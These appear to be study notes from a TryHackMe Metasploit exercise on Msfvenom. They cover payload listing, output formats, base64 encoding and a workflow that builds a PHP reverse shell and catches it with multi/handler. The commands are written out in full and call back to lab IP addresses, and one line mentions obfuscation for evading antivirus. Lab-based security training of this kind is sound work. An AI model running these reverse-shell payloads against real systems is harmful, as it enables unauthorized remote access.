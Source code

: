 ## Task 6: Msfvenom
<ul>
<li>Replaced Msfpayload and Msfencode.</li>
<li>Generate payloads in different formats (E.g. PHP, exe, dll, elf.) and for different target systems (E.g. Apple, Windows, ANdroid, Linux.).</li>
<li>Able to access all payloads available in the Metasploit framework.</li>
</ul>

| Action | Command |
|--------|---------|
| To list payloads available in Metasploit Framework. | [Regular command prompt] `msfvenom -l payloads` |

<ol>
<li>Output formats</li>
<li>Encoders</li>
<li>Handlers</li>
<li>Other payloads</li>
<li>THM Questions</li>
</ol>

<u><b>Output formats</b></u>
<ul>
<li>Can generate stand-alone payloads (E.g. a Windows executable for Meterpreter) or get a usable raw format (E.g. python).</li>
<li> List supported output formats: <code>msfvenom --list formats</code></li>
</ul>

<u><b>Encoders</b></u>
<ul>
<li>Encoders don't aim to bypass AV installed on target system; they encode payload.</li>
<li>Encoding can be effective against some AV software, but using modern obfuscation techniques or learning methods to inject shellcode is better solution to bypassing AV installed on target system.</li>
<li>Encode with parameter <code>-e</code> in Base64 and output format in <code>raw</code>: <code>msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64</code></li>
</ul>

<u><b>Handlers</b></u>
<ul>
<li>Similar to exploits using reverse shell, need to accept incoming connections generated by MSFVenom payload. Term used to receive connection from target = Catching a shell.</li>
<li>When using exploit module, this part is automatically handled by exploit module; <code>payload options</code> title appeared when setting reverse shell.</li>
<li>In MSFvenom payload, reverse shells/ Meterpreter callbacks generated can be easily caught using a handler.</li>
</ul>

<b>Example Workflow</b>
| No. | Step | Command |
|-----|------|---------|
| 1. | Generate PHP shell using MSFvenom.<br>Will require<ul><li>payload</li><li>local machine IP address = address of AttackBox</li><li>local port to which payload will connect to</li></ul><br><br>Output PHP file incorrectly comments out the starting PHP tag `?*<?php /**?>` and misses the end tag `?>`. | [Regular command prompt]<br>`msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`<br><br>Edit reverse_shell.php with  `<php` and `?>`|
| 2. | Start Metasploit handler to receive incoming connection with module Multi Handler. Multi Handler supports all Metasploit payloads and can be used for Meterpreter and regular shells. | [msfconsole prompt]<br>`use exploit/multi/handler`<br>`set payload php/reverse_php`<br>`set lhost 10.0.2.19`<br>`set lport 7777` |
| 3. | Execute PHP shell and wait for incoming connection to be received by multi/handler and provide us with a shell.<br>If payload was set as Meterpreter (E.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell. | `run` |
